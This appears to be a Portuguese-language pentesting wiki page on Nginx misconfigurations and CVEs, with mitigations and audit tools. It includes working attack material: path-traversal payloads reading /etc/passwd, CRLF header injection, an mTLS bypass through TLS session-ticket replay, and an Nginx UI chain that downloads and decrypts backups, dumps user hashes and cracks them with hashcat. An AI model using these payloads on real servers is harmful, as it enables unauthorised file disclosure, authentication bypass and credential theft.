

# Nginx

{{#include ../../banners/hacktricks-training.md}}


## Diretório raiz ausente <a href="#missing-root-location" id="missing-root-location"></a>

Ao configurar o servidor Nginx, a **diretiva root** desempenha um papel crítico ao definir o diretório base a partir do qual os arquivos são servidos. Considere o exemplo abaixo:
```bash
server {
root /etc/nginx;

location /hello.txt {
try_files $uri $uri/ =404;
proxy_pass http://127.0.0.1:8080/;
}
}
```
Nesta configuração, `/etc/nginx` está designado como o diretório root. Essa configuração permite acesso aos arquivos dentro do diretório root especificado, como `/hello.txt`. No entanto, é crucial notar que apenas uma location específica (`/hello.txt`) está definida. Não há configuração para a root location (`location / {...}`). Essa omissão significa que a diretiva root se aplica globalmente, permitindo que requisições para o caminho root `/` acessem arquivos em `/etc/nginx`.

Surge uma consideração crítica de segurança a partir dessa configuração. Uma simples requisição `GET`, como `GET /nginx.conf`, poderia expor informações sensíveis ao servir o arquivo de configuração do Nginx localizado em `/etc/nginx/nginx.conf`. Definir o root para um diretório menos sensível, como `/etc`, poderia mitigar esse risco, embora ainda possa permitir acesso não intencional a outros arquivos críticos, incluindo outros arquivos de configuração, access logs e até credenciais criptografadas usadas para autenticação HTTP basic.

## Alias LFI Misconfiguration <a href="#alias-lfi-misconfiguration" id="alias-lfi-misconfiguration"></a>

Nos arquivos de configuração do Nginx, é necessária uma inspeção cuidadosa das diretivas "location". Uma vulnerabilidade conhecida como Local File Inclusion (LFI) pode ser inadvertidamente introduzida por uma configuração semelhante à seguinte:
```
location /imgs {
alias /path/images/;
}
```
Esta configuração é suscetível a ataques de LFI devido ao servidor interpretar requisições como `/imgs../flag.txt` como uma tentativa de acessar arquivos fora do diretório pretendido, resolvendo efetivamente para `/path/images/../flag.txt`. Essa falha permite que atacantes recuperem arquivos do filesystem do servidor que não deveriam estar acessíveis via web.

Para mitigar essa vulnerabilidade, a configuração deve ser ajustada para:
```
location /imgs/ {
alias /path/images/;
}
```
More info: [https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)

Accunetix tests:
```
alias../ => HTTP status code 403
alias.../ => HTTP status code 404
alias../../ => HTTP status code 403
alias../../../../../../../../../../../ => HTTP status code 400
alias../ => HTTP status code 403
```
## Restrição insegura de path <a href="#unsafe-variable-use" id="unsafe-variable-use"></a>

Verifique a seguinte página para aprender como contornar diretivas como:
```plaintext
location = /admin {
deny all;
}

location = /admin/ {
deny all;
}
```
{{#ref}}
../../pentesting-web/proxy-waf-protections-bypass.md
{{#endref}}

## Uso inseguro de variável / HTTP Request Splitting <a href="#unsafe-variable-use" id="unsafe-variable-use"></a>

> [!CAUTION]
> Variáveis vulneráveis `$uri` e `$document_ur`i e isso pode ser corrigido substituindo-as por `$request_uri`.
>
> Um regex também pode ser vulnerável como:
>
> `location ~ /docs/([^/])? { … $1 … }` - Vulnerável
>
> `location ~ /docs/([^/\s])? { … $1 … }` - Não vulnerável (verificando espaços)
>
> `location ~ /docs/(.*)? { … $1 … }` - Não vulnerável

Uma vulnerabilidade na configuração do Nginx é demonstrada pelo exemplo abaixo:
```
location / {
return 302 https://example.com$uri;
}
```
Os caracteres \r (Carriage Return) e \n (Line Feed) significam caracteres de nova linha em requisições HTTP, e suas formas codificadas em URL são representadas como `%0d%0a`. Incluir esses caracteres em uma requisição (por exemplo, `http://localhost/%0d%0aDetectify:%20clrf`) para um servidor mal configurado faz com que o servidor emita um novo header chamado `Detectify`. Isso acontece porque a variável $uri decodifica os caracteres de nova linha codificados em URL, levando a um header inesperado na resposta:
```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.19.3
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: https://example.com/
Detectify: clrf
```
Learn more about the risks of CRLF injection and response splitting at [https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/](https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/).

Also this technique is [**explained in this talk**](https://www.youtube.com/watch?v=gWQyWdZbdoY&list=PL0xCSYnG_iTtJe2V6PQqamBF73n7-f1Nr&index=77) with some vulnerable examples and dectection mechanisms. Por exemplo, para detectar essa misconfiguration de uma perspectiva blackbox, você poderia fazer estas requests:

- `https://example.com/%20X` - Any HTTP code
- `https://example.com/%20H` - 400 Bad Request

Se for vulnerable, a primeira retornará, já que "X" é qualquer HTTP method, e a segunda retornará um error, já que H não é um method válido. Então o server receberá algo como: `GET / H HTTP/1.1` e isso vai disparar o error.

Outros exemplos de detection seriam:

- `http://company.tld/%20HTTP/1.1%0D%0AXXXX:%20x` - Any HTTP code
- `http://company.tld/%20HTTP/1.1%0D%0AHost:%20x` - 400 Bad Request

Algumas vulnerable configurations apresentadas nessa talk foram:

- Note how **`$uri`** is set as is in the final URL
```
location ^~ /lite/api/ {
proxy_pass http://lite-backend$uri$is_args$args;
}
```
- Note como novamente **`$uri`** está na URL (desta vez dentro de um parâmetro)
```
location ~ ^/dna/payment {
rewrite ^/dna/([^/]+) /registered/main.pl?cmd=unifiedPayment&context=$1&native_uri=$uri break;
proxy_pass http://$back;
```
- Agora em AWS S3
```
location /s3/ {
proxy_pass https://company-bucket.s3.amazonaws.com$uri;
}
```
### Any variable

Foi descoberto que **user-supplied data** pode ser tratada como uma **Nginx variable** sob certas circunstâncias. A causa desse comportamento permanece um tanto elusiva, mas não é incomum nem simples de verificar. Essa anomalia foi destacada em um security report no HackerOne, que pode ser visto [here](https://hackerone.com/reports/370094). Uma investigação נוספת sobre a mensagem de erro levou à identificação de sua ocorrência dentro do [SSI filter module do codebase do Nginx](https://github.com/nginx/nginx/blob/2187586207e1465d289ae64cedc829719a048a39/src/http/modules/ngx_http_ssi_filter_module.c#L365), apontando Server Side Includes (SSI) como a causa raiz.

Para **detect this misconfiguration**, o seguinte comando pode ser executado, envolvendo definir um referer header para testar a impressão de variável:
```bash
$ curl -H ‘Referer: bar’ http://localhost/foo$http_referer | grep ‘foobar’
```
Scans para essa misconfiguration em vários sistemas revelaram múltiplas instâncias em que variáveis do Nginx podiam ser impressas por um user. No entanto, uma diminuição no número de instâncias vulneráveis sugere que os esforços para corrigir este issue foram, de certa forma, bem-sucedidos.

### Usando try_files com as variáveis $URI$ARGS

A seguinte misconfiguration do Nginx pode levar a uma vulnerability de LFI:
```
location / {
try_files $uri$args $uri$args/ /index.html;
}
```
Na nossa configuração, temos a diretiva `try_files`, que é usada para verificar a existência de arquivos em uma ordem especificada. O Nginx vai servir o primeiro que encontrar. A sintaxe básica da diretiva `try_files` é a seguinte:
```
try_files file1 file2 ... fileN fallback;
```
Nginx verificará a existência de cada arquivo na ordem especificada. Se um arquivo existir, ele será servido imediatamente. Se nenhum dos arquivos especificados existir, a requisição será passada para a opção de fallback, que pode ser outro URI ou uma página de erro específica.

No entanto, ao usar as variáveis `$uri$args` nesta diretiva, o Nginx tentará procurar um arquivo que corresponda ao URI da requisição combinado com quaisquer argumentos de query string. Portanto, podemos explorar esta configuração:
```
http {
server {
root /var/www/html/public;

location / {
try_files $uri$args $uri$args/ /index.html;
}
}
}
```
Com o seguinte payload:
```
GET /?../../../../../../../../etc/passwd HTTP/1.1
Host: example.com
```
Usando nosso payload, vamos escapar do diretório root (definido na configuração do Nginx) e carregar o arquivo `/etc/passwd`. Nos debug logs, podemos observar como o Nginx tenta os arquivos:
```
...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 trying to use file: "/../../../../../../../../etc/passwd" "/var/www/html/public/../../../../../../../../etc/passwd"
2025/07/11 15:49:16 [debug] 79694#79694: *4 try file uri: "/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 http filename: "/var/www/html/public/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 HTTP/1.1 200 OK

```
PoC contra Nginx usando a configuração mencionada acima:


## Leitura de raw backend response

Nginx oferece um recurso por meio de `proxy_pass` que permite a interceptação de errors e HTTP headers produzidos pelo backend, com o objetivo de ocultar mensagens de erro internas e headers. Isso é feito com o Nginx servindo páginas de erro customizadas em resposta a errors do backend. No entanto, surgem desafios quando o Nginx encontra uma invalid HTTP request. Essa request é encaminhada para o backend como recebida, e a raw response do backend é então enviada diretamente ao client sem intervenção do Nginx.

Considere um cenário de exemplo envolvendo uma aplicação uWSGI:
```python
def application(environ, start_response):
start_response('500 Error', [('Content-Type', 'text/html'), ('Secret-Header', 'secret-info')])
return [b"Secret info, should not be visible!"]
```
Para gerenciar isso, são usadas diretivas específicas na configuração do Nginx:
```
http {
error_page 500 /html/error.html;
proxy_intercept_errors on;
proxy_hide_header Secret-Header;
}
```
- [**proxy_intercept_errors**](http://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_intercept_errors): Esta diretiva permite que o Nginx sirva uma resposta personalizada para respostas do backend com status code maior que 300. Ela garante que, para nossa aplicação uWSGI de exemplo, uma resposta `500 Error` seja interceptada e tratada pelo Nginx.
- [**proxy_hide_header**](http://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_hide_header): Como o nome sugere, esta diretiva oculta headers HTTP especificados do cliente, aumentando a privacidade e a segurança.

Quando uma requisição `GET` válida é feita, o Nginx a processa normalmente, retornando uma resposta de erro padrão sem revelar nenhum header secreto. No entanto, uma requisição HTTP inválida contorna esse mecanismo, resultando na exposição de respostas brutas do backend, incluindo headers secretos e mensagens de erro.

## merge_slashes set to off

Por padrão, a **diretiva `merge_slashes` do Nginx** está definida como **`on`**, o que comprime múltiplas barras à frente em uma URL em uma única barra. Esse recurso, embora simplifique o processamento de URLs, pode inadvertidamente ocultar vulnerabilidades em aplicações atrás do Nginx, especialmente aquelas propensas a ataques de local file inclusion (LFI). Os especialistas em segurança **Danny Robinson e Rotem Bar** destacaram os riscos potenciais associados a esse comportamento padrão, especialmente quando o Nginx atua como reverse-proxy.

Para mitigar tais riscos, é recomendado **desativar a diretiva `merge_slashes`** para aplicações suscetíveis a essas vulnerabilidades. Isso garante que o Nginx encaminhe as requisições para a aplicação sem alterar a estrutura da URL, não mascarando assim quaisquer problemas de segurança subjacentes.

Para mais informações, confira [Danny Robinson and Rotem Bar](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d).

### **Maclicious Response Headers**

Como mostrado em [**this writeup**](https://mizu.re/post/cors-playground), existem certos headers que, se presentes na resposta do web server, irão alterar o comportamento do proxy Nginx. Você pode conferi-los [**in the docs**](https://www.nginx.com/resources/wiki/start/topics/examples/x-accel/):

- `X-Accel-Redirect`: Indica ao Nginx para redirecionar internamente uma requisição para um local especificado.
- `X-Accel-Buffering`: Controla se o Nginx deve fazer buffer da resposta ou não.
- `X-Accel-Charset`: Define o conjunto de caracteres da resposta ao usar X-Accel-Redirect.
- `X-Accel-Expires`: Define o tempo de expiração da resposta ao usar X-Accel-Redirect.
- `X-Accel-Limit-Rate`: Limita a taxa de transferência das respostas ao usar X-Accel-Redirect.

Por exemplo, o header **`X-Accel-Redirect`** causará um **redirect** interno no nginx. Então ter uma configuração do nginx com algo como **`root /`** e uma resposta do web server com **`X-Accel-Redirect: .env`** fará o nginx enviar o conteúdo de **`/.env`** (Path Traversal).

### **Default Value in Map Directive**

Na **configuração do Nginx**, a diretiva `map` frequentemente desempenha um papel no **controle de autorização**. Um erro comum é não especificar um valor **default**, o que pode levar a acesso não autorizado. Por exemplo:
```yaml
http {
map $uri $mappocallow {
/map-poc/private 0;
/map-poc/secret 0;
/map-poc/public 1;
}
}
```

```yaml
server {
location /map-poc {
if ($mappocallow = 0) {return 403;}
return 200 "Hello. It is private area: $mappocallow";
}
}
```
Sem um `default`, um **malicious user** pode contornar a segurança acessando uma **undefined URI** dentro de `/map-poc`. [The Nginx manual](https://nginx.org/en/docs/http/ngx_http_map_module.html) recomenda definir um **default value** para evitar esses problemas.

### **DNS Spoofing Vulnerability**

DNS spoofing contra Nginx é viável sob certas condições. Se um attacker souber o **DNS server** usado pelo Nginx e puder interceptar suas consultas DNS, ele pode fazer spoof de registros DNS. Este método, no entanto, é ineficaz se o Nginx estiver configurado para usar **localhost (127.0.0.1)** para resolução DNS. O Nginx permite especificar um DNS server da seguinte forma:
```yaml
resolver 8.8.8.8;
```
### **`proxy_pass` e `internal` Directives**

A diretiva **`proxy_pass`** é utilizada para redirecionar requests para outros servers, seja internamente ou externamente. A diretiva **`internal`** garante que certas locations sejam acessíveis apenas dentro do Nginx. Embora essas diretivas não sejam vulnerabilities por si só, sua configuração exige análise cuidadosa para evitar falhas de segurança.

## proxy_set_header Upgrade & Connection

Se o nginx server estiver configurado para repassar os headers Upgrade e Connection, um [**h2c Smuggling attack**](../../pentesting-web/h2c-smuggling.md) poderia ser realizado para acessar endpoints protegidos/internal.

> [!CAUTION]
> Essa vulnerability permitiria que um attacker **estabelecesse uma conexão direta com o endpoint `proxy_pass`** (`http://backend:9999` neste caso), cujo conteúdo não será verificado pelo nginx.

Exemplo de configuração vulnerable para roubar `/flag` de [aqui](https://bishopfox.com/blog/h2c-smuggling-request):
```
server {
listen       443 ssl;
server_name  localhost;

ssl_certificate       /usr/local/nginx/conf/cert.pem;
ssl_certificate_key   /usr/local/nginx/conf/privkey.pem;

location / {
proxy_pass http://backend:9999;
proxy_http_version 1.1;
proxy_set_header Upgrade $http_upgrade;
proxy_set_header Connection $http_connection;
}

location /flag {
deny all;
}
```
> [!WARNING]
> Note that even if the `proxy_pass` was pointing to a specific **path** such as `http://backend:9999/socket.io` the connection will be stablished with `http://backend:9999` so you can **contact any other path inside that internal endpoint. So it doesn't matter if a path is specified in the URL of proxy_pass.**

## Módulo HTTP/3 QUIC remoto DoS & leak (2024)

Durante 2024, o Nginx divulgou CVE-2024-31079, CVE-2024-32760, CVE-2024-34161 e CVE-2024-35200, mostrando que uma **única sessão QUIC hostil** pode derrubar processos worker ou vazar memória sempre que o `ngx_http_v3_module` experimental estiver compilado e um socket `listen ... quic` estiver exposto. As versões afetadas são 1.25.0–1.25.5 e 1.26.0, enquanto 1.27.0/1.26.1 trazem as correções; a divulgação de memória (CVE-2024-34161) além disso requer MTUs maiores que 4096 bytes para expor dados sensíveis (detalhes no advisory do nginx de 2024 referenciado abaixo).

**Dicas de reconhecimento & exploração**

- HTTP/3 é opcional, então procure por respostas `Alt-Svc: h3=":443"` ou faça brute-force de handshakes QUIC em UDP/443; uma vez confirmado, faça fuzz do handshake e dos frames STREAM com payloads personalizados de `quiche-client`/`nghttp3` para disparar crashes do worker e forçar leakage de logs.
- Faça fingerprint rápido do suporte do alvo com:
```bash
nginx -V 2>&1 | grep -i http_v3
rg -n "listen .*quic" /etc/nginx/
```
## TLS session resumption bypass of client cert auth (CVE-2025-23419)

Um advisory de fevereiro de 2025 revelou que o nginx 1.11.4–1.27.3 compilado com OpenSSL permite **reutilizar uma sessão TLS 1.3** de um name-based virtual host dentro de outro, então um cliente que negociou um host sem certificado pode reenviar o ticket/PSK para entrar em um vhost protegido com `ssl_verify_client on;` e ignorar mTLS completamente. O bug é acionado sempre que múltiplos virtual hosts compartilham o mesmo TLS 1.3 session cache e tickets (veja o advisory do nginx de 2025 referenciado abaixo).

**Attacker playbook**
```bash
# 1. Create a TLS session on the public vhost and save the session ticket
openssl s_client -connect public.example.com:443 -sess_out ticket.pem

# 2. Replay that session ticket against the mTLS vhost before it expires
openssl s_client -connect admin.example.com:443 -sess_in ticket.pem -ign_eof
```
Se o alvo for vulnerável, o segundo handshake é concluído sem apresentar um client certificate, revelando localizações protegidas.

**O que auditar**

- Blocos `server_name` mistos que compartilham `ssl_session_cache shared:SSL` junto com `ssl_session_tickets on;`.
- Blocos de admin/API que esperam mTLS, mas herdam configurações compartilhadas de session cache/ticket de hosts públicos.
- Automação que habilita TLS 1.3 session resumption globalmente (por exemplo, roles do Ansible) sem considerar isolamento de vhost.

## HTTP/2 Rapid Reset resilience (CVE-2023-44487 behavior)

O HTTP/2 Rapid Reset attack (CVE-2023-44487) ainda afeta o nginx quando operadores aumentam `keepalive_requests` ou `http2_max_concurrent_streams` além dos padrões: um atacante abre uma conexão HTTP/2, a inunda com milhares de streams e então emite imediatamente frames `RST_STREAM`, de modo que o limite de concorrência nunca é atingido enquanto a CPU continua gastando tempo na lógica de teardown. Os padrões do Nginx (128 concurrent streams, 1000 keepalive requests) mantêm o impacto pequeno; elevar esses limites para "bem mais alto" torna trivial esgotar workers até mesmo a partir de um único client (veja o write-up da F5 referenciado abaixo).

**Dicas de detecção**
```bash
# Highlight risky knobs
rg -n "http2_max_concurrent_streams" /etc/nginx/
rg -n "keepalive_requests" /etc/nginx/
```
Hosts que revelam valores unusually altos para esses directives são alvos principais: um cliente HTTP/2 pode entrar em loop com criação de stream e frames `RST_STREAM` instantâneos para manter a CPU no máximo sem acionar o limite de concurrency.

## Nginx UI backup export + crypto material leakage sem auth

**Nginx UI** é um painel de administração separado para nginx, não o daemon nginx em si. Em **Nginx UI < 2.3.3**, o endpoint de exportação de backup pode estar acessível **sem authentication** e a resposta também pode leak a **AES-256-CBC key e IV** necessários para decrypt o backup via o header `X-Backup-Security`. Isso transforma um "encrypted backup download" em disclosure imediato de **credential / token / private-key**.

### Fast version fingerprinting from SPA assets

Se a página de login for uma SPA pesada em JS, faça pull do main bundle de `/` e procure por um chunk dedicado de version:
```bash
curl -s http://admin.example/ | grep -oP 'assets/index-[^"]+\.js'
curl -s http://admin.example/assets/index-<hash>.js | grep -oP 'version[-\\w]*\\.js'
curl -s http://admin.example/assets/version-<hash>.js
```
Em builds vulneráveis do Nginx UI, isso frequentemente retorna um literal como `const t="2.3.2"`, o que é suficiente para corresponder ao intervalo vulnerável antes de autenticar.

### Verifique endpoints de API expostos e faça o pull do backup

Mesmo quando a maioria das rotas `/api/*` retorna `403`, teste endpoints de estilo backup diretamente:
```bash
curl -s http://admin.example/api/install
curl -s -D headers.txt -o backup.zip http://admin.example/api/backup
grep -i '^X-Backup-Security:' headers.txt
unzip -l backup.zip
```
Se vulnerável, `X-Backup-Security` contém `base64(key):base64(iv)`. Decodifique ambos os valores e confirme os comprimentos esperados (**chave de 32 bytes**, **IV de 16 bytes**):
```bash
KEY_B64='<base64-key>'; IV_B64='<base64-iv>'
KEY_HEX=$(printf '%s' "$KEY_B64" | base64 -d | xxd -p -c 0)
IV_HEX=$(printf '%s' "$IV_B64" | base64 -d | xxd -p -c 0)
unzip backup.zip -d backup
openssl enc -aes-256-cbc -d -in backup/hash_info.txt -out hash_info.txt -K "$KEY_HEX" -iv "$IV_HEX"
openssl enc -aes-256-cbc -d -in backup/nginx.zip -out nginx_dec.zip -K "$KEY_HEX" -iv "$IV_HEX"
openssl enc -aes-256-cbc -d -in backup/nginx-ui.zip -out nginx-ui_dec.zip -K "$KEY_HEX" -iv "$IV_HEX"
```
Após a descriptografia, inspecione os configs do nginx recuperados e os dados da aplicação Nginx UI. Um caminho comum de post-exploitation é:

- Extraia os detalhes de reverse-proxy e vhost de `nginx_dec.zip`
- Inspecione `nginx-ui_dec.zip` em busca de `app.ini`, `database.db`, API tokens ou material de certificado
- Faça dump da tabela SQLite `users` e quebre offline os hashes de senha recuperados
```bash
unzip nginx-ui_dec.zip -d nginx-ui
sqlite3 nginx-ui/database.db 'select name,password from users;'
hashcat -m 3200 hashes.txt <wordlist>
```
Esse padrão vale a pena testar em outros produtos de admin também: **uma exportação "encrypted" sem autenticação ainda é divulgação em plaintext se a resposta vazar o material de decryption ou o armazenar junto com o archive.**

## Teste você mesmo

A Detectify criou um repositório no GitHub onde você pode usar Docker para configurar seu próprio servidor de teste Nginx vulnerável com algumas das misconfigurations discutidas neste artigo e tentar encontrá-las você mesmo!

[https://github.com/detectify/vulnerable-nginx](https://github.com/detectify/vulnerable-nginx)

## Static Analyzer tools

### [gixy-ng](https://github.com/dvershinin/gixy) & [Gixy-Next](https://gixy.io/) & [GIXY](https://github.com/yandex/gixy)


- [Gixy-Next](https://gixy.io/) (um fork atualizado do GIXY) é uma ferramenta para analisar configurações do Nginx, com o objetivo de encontrar vulnerabilities, directives inseguras e misconfigurations arriscadas. Ela também encontra misconfigurations que afetam o desempenho e detecta oportunidades perdidas de hardening, permitindo a detecção automatizada de flaws.
- [gixy-ng](https://github.com/dvershinin/gixy) (o fork mantido ativamente do GIXY) é uma ferramenta para analisar configurações do Nginx, com o objetivo de encontrar vulnerabilities, directives inseguras e misconfigurations arriscadas. Ela também encontra misconfigurations que afetam o desempenho e detecta oportunidades perdidas de hardening, permitindo a detecção automatizada de flaws.

### [Nginxpwner](https://github.com/stark0de/nginxpwner)

Nginxpwner é uma ferramenta simples para procurar misconfigurations e vulnerabilities comuns do Nginx.

## References

- [**https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/**](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)
- [**http://blog.zorinaq.com/nginx-resolver-vulns/**](http://blog.zorinaq.com/nginx-resolver-vulns/)
- [**https://github.com/yandex/gixy/issues/115**](https://github.com/yandex/gixy/issues/115)
- [**https://mailman.nginx.org/pipermail/nginx-announce/2024/GWH2WZDVCOC2A5X67GKIMJM4YRELTR77.html**](https://mailman.nginx.org/pipermail/nginx-announce/2024/GWH2WZDVCOC2A5X67GKIMJM4YRELTR77.html)
- [**https://mailman.nginx.org/pipermail/nginx-announce/2025/NYEUJX7NCBCGJGXDFVXNMAAMJDFSE45G.html**](https://mailman.nginx.org/pipermail/nginx-announce/2025/NYEUJX7NCBCGJGXDFVXNMAAMJDFSE45G.html)
- [**https://www.f5.com/company/blog/nginx/http-2-rapid-reset-attack-impacting-f5-nginx-products**](https://www.f5.com/company/blog/nginx/http-2-rapid-reset-attack-impacting-f5-nginx-products)
- [**https://0xdf.gitlab.io/2026/04/01/htb-snapped.html**](https://0xdf.gitlab.io/2026/04/01/htb-snapped.html)
- [**https://nvd.nist.gov/vuln/detail/CVE-2026-27944**](https://nvd.nist.gov/vuln/detail/CVE-2026-27944)
- [**https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762**](https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762)


{{#include ../../banners/hacktricks-training.md}}
